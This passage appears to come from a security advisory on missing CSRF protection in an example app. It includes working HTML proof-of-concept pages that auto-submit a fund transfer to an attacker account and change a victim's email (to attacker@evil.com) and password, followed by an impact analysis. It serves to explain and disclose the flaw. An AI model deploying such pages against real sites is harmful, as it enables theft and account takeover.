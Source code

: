```html
<html>
  <body onload="document.getElementById('csrf-form').submit();">
    <form id="csrf-form" action="https://acme-app.com/transaction" method="POST">
      <input type="hidden" name="amount" value="1000" />
      <input type="hidden" name="toAccount" value="attacker-account-number" />
    </form>
  </body>
</html>

```

When an authenticated user visits this page, their browser automatically sends a POST request to the `/transaction` endpoint including their session cookies. Since the application lacks CSRF protection, it processes the transaction as if it were legitimately initiated by the user, transferring funds to the attacker's account.

**Scenario 2: Account Takeover**
If the application has endpoints for changing user details, an attacker could craft a malicious site that submits requests to update email addresses and passwords:

```html
<body>
  <form id="email-form" action="https://acme-app.com/settings/update-email" method="POST">
    <input type="hidden" name="email" value="attacker@evil.com" />
  </form>
  <form id="password-form" action="https://acme-app.com/settings/update-password" method="POST">
    <input type="hidden" name="new_password" value="attackerPassword123" />
  </form>
  <script>
    document.getElementById('email-form').submit();
    setTimeout(() => document.getElementById('password-form').submit(), 1000);
  </script>
</body>

```

This could give the attacker full control over the victim's account, potentially exposing sensitive information and enabling further malicious actions.

# Impact Analysis
**Business Impact:**
- Financial losses from unauthorized transactions initiated through CSRF attacks
- Loss of customer trust due to account compromises and unauthorized actions
- Potential regulatory compliance issues related to inadequate security controls
- Reputational damage if CSRF attacks lead to publicized security incidents
- Costs associated with incident response, investigation, and recovery
- Potential legal consequences if customer data or finances are compromised

**Technical Impact:**
- Unauthorized state-changing operations performed on behalf of authenticated users
- Potential data integrity issues from malicious modifications
- Account compromise if credential-changing endpoints are vulnerable
- Possible escalation to more severe attacks if administrative functions lack CSRF protection
- Chain of exploitation if CSRF can be used to upload malicious content or modify security settings
- Bypass of proper authorization flows and business logic validations
